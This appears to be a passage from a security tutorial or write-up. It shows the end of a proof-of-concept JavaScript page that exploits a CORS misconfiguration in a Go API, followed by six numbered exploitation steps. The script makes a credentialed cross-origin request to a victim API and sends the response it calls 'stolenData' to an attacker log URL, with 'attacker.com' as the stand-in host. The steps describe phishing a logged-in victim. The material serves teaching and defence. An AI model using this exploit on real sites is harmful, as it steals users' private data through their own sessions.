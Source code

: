```HTML

        // Create an XMLHttpRequest object
        var xhr = new XMLHttpRequest();

        // Define what happens when the request completes
        xhr.onreadystatechange = function() {
            // Check if the request is complete (readyState 4)
            if (xhr.readyState === XMLHttpRequest.DONE) {
                // Check if the request was successful (status 200)
                if (xhr.status === 200) {
                    // Request successful! The browser allowed reading the response due to misconfigured CORS.
                    var stolenData = xhr.responseText;
                    console.log("Successfully retrieved data:", stolenData);

                    // Exfiltrate the stolen data to the attacker's server
                    console.log("Exfiltrating data to attacker server...");
                    fetch(attackerLogUrl + "?data=" + encodeURIComponent(stolenData), { method: 'POST', mode: 'no-cors' }); // Send data via POST or GET
                } else {
                    // Request failed
                    console.error("Failed to retrieve data. Status:", xhr.status, "Response:", xhr.responseText);
                }
            }
        };

        // Configure the GET request to the vulnerable API
        xhr.open("GET", victimApiUrl, true); // true for asynchronous

        // CRITICAL STEP: Instruct the browser to include credentials (cookies) with the request
        xhr.withCredentials = true;

        // Send the request. The browser will automatically add the 'Origin: https://attacker.com' header.
        // It will also attach any relevant cookies for 'vulnerable-api.com'.
        xhr.send(null);
    </script>
</body>
</html>
```

**Exploitation Steps:**

1. **Lure Victim:** The attacker tricks a victim, who is currently logged into `https://vulnerable-api.com`, into visiting the malicious page `https://attacker.com/exploit.html` (e.g., via a phishing email or a deceptive link).
2. **Execute Script:** As the page loads, the embedded JavaScript executes in the victim's browser.
3. **Cross-Origin Request:** The script initiates an asynchronous `GET` request to `https://vulnerable-api.com/user/data`.
4. **Browser Sends Request:** Because `xhr.withCredentials = true` is set, the browser attaches the victim's session cookies for `vulnerable-api.com` to the request. It also automatically includes the `Origin: https://attacker.com` header.
5. **Server Responds (Insecurely):** The vulnerable Golang server receives the request. Due to the misconfiguration, it sees `Origin: https://attacker.com`, reflects this value in the response header `Access-Control-Allow-Origin: https://attacker.com`, and also includes `Access-Control-Allow-Credentials: true`.
6. **Browser Allows Access:** The victim's browser checks the response headers. Since `Access-Control-Allow-Origin` matches the script's origin (`https://attacker.com`) and `Access-Control-Allow-Credentials` is `true`, the browser permits the JavaScript running on `https://attacker.com` to read the response body received from `https://vulnerable-api.com`.